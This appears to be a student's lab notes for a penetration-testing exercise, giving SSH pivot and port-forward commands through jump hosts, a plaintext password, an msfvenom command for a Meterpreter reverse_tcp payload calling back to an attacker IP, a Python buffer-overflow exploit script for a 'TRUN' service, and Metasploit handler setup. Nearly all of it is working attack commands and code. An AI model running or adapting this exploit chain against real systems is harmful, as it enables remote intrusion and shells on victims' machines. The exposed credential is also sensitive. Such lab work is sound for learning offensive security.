 # scheme of manuever
LINOPS                                      
-> JUMP                                                   
-> GREYSITE
-> T3 192.168.150.245
      
# opnotes: all commands are ran on the linops
ssh -MS /tmp/jump student@10.50.39.53 ## PassW:EM5UCDd0t5NrkXb ##       -> gets on jump
ssh -S /tmp/jump jump -O forward -L2222:192.168.28.120:4242           	-> fowards port 2222 to greysite ip using known alternate ssh port
ssh -MS /tmp/t1 -p2222 student@127.0.0.1 ## PassW:YourTempPassword ##   -> gets onto greysite using the previous forward port and the local host.  
proxychains python ./wtvuwant.py                                        -> this cmd will execute the script on greysite. greysite sends the exploit to T3.

0)this is the last command ran, should be ran only after completing the below steps:
1)msfvenom: new random port and copy shell code over to winsploit script
2)winsploit script: update shell code and update ip to T3 IP
3)msfconsole: update local port to match new random hig port in msfvenom. run exploit.
4)run the proxychains cmd above.
                                                                        
## 1) msfvenom 
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.39.104 lport=1234 -b "\x00" -f python

## 2) windows exploitation script
#!/usr/bin/env python
import socket

buf = "TRUN /.:/"
buf += "A" * 2003
buf += "\xa0\x12\x50\x62"
buf += "\x90" * 10

buf += "much buffer overflow shellcode"
buf += b"\x8b\x2b\x04\x53\xff\x19\x8b\xcf\x97\x11\x44\xd6"
buf += "much buffer overflow shellcode"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)    
s.connect (("192.168.150.245",9999))                     
print s.recv(1024)                                       
s.send(buf)                                               
print s.recv(1024)                                        
s.close()                                              

## 3) msfconsole exploit
> use multihandler, > set payload windows/meterpreter/reverse_tcp, > Set LHOST 0.0.0.0, > set lport 1234
